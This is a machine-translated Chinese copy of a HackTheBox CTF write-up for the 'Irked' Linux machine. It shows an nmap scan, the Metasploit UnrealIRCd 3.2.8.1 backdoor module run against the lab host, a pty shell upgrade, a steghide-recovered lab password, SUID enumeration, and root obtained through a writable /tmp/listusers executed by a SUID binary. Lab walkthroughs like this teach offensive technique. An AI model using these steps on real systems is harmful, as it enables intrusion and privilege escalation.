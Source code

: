 # HackTheBox 写的很烦

> 原文：<https://infosecwriteups.com/hackthebox-write-up-irked-4f1911ca1511?source=collection_archive---------0----------------------->

*这是该机* [*的特写*](https://www.hackthebox.eu/home/machines/profile/163) *出自*[*HackTheBox*](https://www.hackthebox.eu/)

> 生活只能向后理解，但必须向前看。
> 
> —匿名

# 摘要

Irked 是一台基于 Linux 平台的中等水平的 CTF 型机器。通过利用 IRC 我们获得初始外壳，通过利用 SUID 二进制获得用户和自己的根

> 机器作者: [MrAgent](https://www.hackthebox.eu/home/users/profile/624)
> 机器类型:Linux
> 机器级别:4.4/10

![](img/351d36a3ea2a26d0fc70e2bc0cb207a9.png)

机器地图

# 专有技术

*   Nmap
*   Searchsploit
*   Metasploit

# 吸收技能

*   未实现的漏洞利用
*   [CVE-2010–2075](https://www.cvedetails.com/cve/CVE-2010-2075/)

# 扫描网络

```
$nmap -sC -sV 10.10.10.117
```

![](img/0425fb3df029ca5608474e3e94d9aad6.png)

man nmap

![](img/9e3219b86099a1a548155e5de30bb240.png)

nmap 结果

网络服务器没有任何有趣的东西。我试了试**牙钻**，但没有发现任何有趣的东西。索引文件里有唯一的表情符号。

![](img/4eeba00dc529b1574cace4c7e451357b.png)

IRC 的运行对我们来说很有趣，让我们试着深入了解一下。

使用 Searchsploit 我们发现 **UnrealIRCd** 易受攻击**。在谷歌上搜索这个漏洞时，我发现了一个 Metasploit 模块。**

 [## 3.2.8.1 后门命令执行| Rapid7

### 这个模块利用了一个恶意后门，它被添加到虚幻的 3.2.8.1 IRCD 下载档案。

www.rapid7.com](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor) ![](img/0bd9a04a711ee0a4176adb6ecfe25431.png)

搜索结果

# 利用服务器

```
msf >use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST 10.10.10.117
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
```

![](img/5bd282d089f69d8a3e87f6ea38942acb.png)

使用 MSF 利用漏洞

这给出了外壳，使用 python 我们得到了交互式外壳。

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](img/fd5f308b134b03bf372123a1dff81c89.png)

低特权外壳

利用 IRC 漏洞我们得到了低权限外壳，搜索 **user.txt** 文件，我发现 **user.txt** 在其他用户文档文件夹中，但是我们没有权限打开该文件。

![](img/de280ac60bc1c65527cf77953ed99cd0.png)

User.txt 文件位置

![](img/06c283b216eae85a10f3be248fbac1c9.png)

**。备份**文件给了我们一些有趣的信息。

> **超级精英 steg 备份 pw**
> 
> **upupdowndownlrbabassss**

所以密码和某种隐写术有关。Steghide 是最常见的使用密码的隐写工具。

试试这个**upupdowndownlrbabassson**irked.jpg 镜像给我们密码。在索引页上。

要安装 steghide:-

```
apt-get install steghide
```

![](img/7d7dc013279b06a221a5bf0b500f28bf.png)

隐藏信息

> 密码:Kab6h+m+bbp2J:HG

# 自己的用户

```
$ su djmardovPassword: Kab6h+m+bbp2J:HG$ cat djmardov/Documents/user.txt
```

![](img/70d642de51734c7e1c455da226437e77.png)

User.txt

# 特许升级

[](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) [## 基本 Linux 权限提升

### 在开始之前，我想指出——我不是专家。据我所知，没有

blog.g0tmi1k.com](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 

```
$ find / -perm -u=s -type f 2>/dev/null

/tmp/listusers/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```

我们找到一个非标准的 Linux 二进制文件`**/usr/bin/viewuser.**`

![](img/286cf41ff528cce14ae7879860254725.png)

/usr/bin/viewuser

该应用程序正在执行 **/tmp/listusers。**所以让我们在 listusers 中插入一个 shell，然后再运行一次。

![](img/2de61544a4ff3491a596a197516312f5.png)

带外壳的列表集

![](img/3b4a40b5ac7021e3200c452f592cb8b8.png)

获得根

![](img/6b4cc09135f44159cafb6641f8b51474.png)

切换到交互式 shell

# 自己的根

![](img/a8c1803827c521aff3160ba08188377b.png)

Root.txt

![](img/1f6163e2819b35764f07e3351a202dd4.png)[](https://medium.com/@yashanand155) [## 增量中等

### 写一些很酷的文章，别忘了去看看。

medium.com](https://medium.com/@yashanand155) 

*感谢阅读！如果你喜欢这个故事，请点击**👏 ***按钮，分享*** *帮助他人！欢迎发表评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。**

## *❤️由[增加到](https://twitter.com/yashanand155)*